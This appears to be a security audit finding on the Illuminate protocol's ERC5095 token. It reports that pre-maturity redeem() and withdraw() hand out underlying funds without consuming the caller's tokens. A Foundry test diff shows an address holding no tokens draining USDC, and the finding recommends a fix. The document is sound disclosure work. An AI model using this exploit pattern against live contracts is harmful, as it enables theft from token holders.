 Holmgren

high

# ERC5095's redeem() and withdraw() pre-maturity don't consume caller's tokens

## Summary

ERC5095's redeem() and withdraw() pre-maturity don't consume caller's tokens. They thus give money for free to anyone who asks.

## Vulnerability Detail

redeem() and withdraw() in ERC5095 when called before maturity transfer underlier to the caller without taking or burning any tokens from the caller. They thus give money for free to anyone who asks. See https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/tokens/ERC5095.sol#L225, https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/tokens/ERC5095.sol#L300, https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/tokens/ERC5095.sol#L315 and https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/tokens/ERC5095.sol#L246.

## Impact

Any user can steal tokens held by the iPT contract.

## Code Snippet

The following two tests pass while they shouldn't:
```diff
diff --git a/test/fork/ERC5095.t.sol b/test/fork/ERC5095.t.sol
index 84e522c..fca34ff 100644
--- a/test/fork/ERC5095.t.sol
+++ b/test/fork/ERC5095.t.sol
@@ -173,8 +173,19 @@ contract ERC5095Test is Test {
         uint256 amount = 100000;
         uint256 shares = 120000;
         deal(address(Contracts.YIELD_TOKEN), address(token), shares);
-        token.withdraw(amount, address(this), address(this));
-        assertGt(IERC20(Contracts.USDC).balanceOf(address(this)), 0);
+
+        address attacker = address(123456);
+        // The attacker has no tokens of any kind
+        assertEq(IERC20(Contracts.USDC).balanceOf(attacker), 0);
+        assertEq(IERC20(Contracts.YIELD_TOKEN).balanceOf(attacker), 0);
+        assertEq(IERC20(token).balanceOf(attacker), 0);
+
+        vm.startPrank(attacker);
+        token.withdraw(amount, attacker, attacker);
+        vm.stopPrank();
+
+        // And now the attacker has tokens
+        assertGt(IERC20(Contracts.USDC).balanceOf(attacker), 0);
     }
 
     function testWithdrawPostMaturity() public {
@@ -200,8 +211,19 @@ contract ERC5095Test is Test {
         uint256 amount = 100000;
         uint256 shares = 120000;
         deal(address(Contracts.YIELD_TOKEN), address(token), shares);
-        token.redeem(amount, address(this), address(this));
-        assertGt(IERC20(Contracts.USDC).balanceOf(address(this)), 0);
+        
+        address attacker = address(123456);
+        // The attacker has no tokens of any kind
+        assertEq(IERC20(Contracts.USDC).balanceOf(attacker), 0);
+        assertEq(IERC20(Contracts.YIELD_TOKEN).balanceOf(attacker), 0);
+        assertEq(IERC20(token).balanceOf(attacker), 0);
+
+        vm.startPrank(attacker);
+        token.redeem(amount, attacker, attacker);
+        vm.stopPrank();
+
+        // And now the attacker has tokens
+        assertGt(IERC20(Contracts.USDC).balanceOf(attacker), 0);
     }
 
     function testRedeemPostMaturity() public {
```
## Tool used

Manual Review

## Recommendation

Disallow calling those methods before maturity or make sure that the caller's tokens are consumed.